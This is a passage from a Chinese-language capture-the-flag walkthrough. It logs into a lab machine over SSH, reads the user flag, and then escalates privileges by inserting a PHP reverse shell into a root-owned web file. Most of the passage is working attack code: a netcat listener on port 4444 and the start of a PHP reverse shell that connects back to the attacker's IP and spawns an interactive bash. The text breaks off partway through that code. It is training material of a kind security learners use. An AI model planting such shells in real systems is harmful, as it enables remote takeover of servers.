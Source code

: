 ```
ssh edward@10.0.0.105 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，先找flag

```
ls  
cat user.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，找找提权信息

```
ls -al /var/www/html/advanced-search
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现这里的文件都是root权限，修改index.php插入反弹shell试试能不能反弹回root权限

1。攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。靶机个性index.php插入反弹shell

```
<?php  
set_time_limit (0);  
$VERSION = "1.0";  
$ip = '10.0.0.3';  // CHANGE THIS  
$port = 4444;       // CHANGE THIS  
$chunk_size = 1400;  
$write_a = null;  
$error_a = null;  
$shell = 'uname -a; w; id; /bin/bash -i';  
$daemon = 0;  
$debug = 0;  
  
//  
// Daemonise ourself if possible to avoid zombies later  
//  
  
// pcntl_fork is hardly ever available, but will allow us to daemonise  
// our php process and avoid zombies.  Worth a try...  
if (function_exists('pcntl_fork')) {  
	// Fork and have the parent process exit  
	$pid = pcntl_fork();  
	  
	if ($pid == -1) {  
		printit("ERROR: Can't fork");  
		exit(1);  
	}  
	  
	if ($pid) {  
		exit(0);  // Parent exits  
	}  
  
	// Make the current process a session leader  
	// Will only succeed if we forked  
```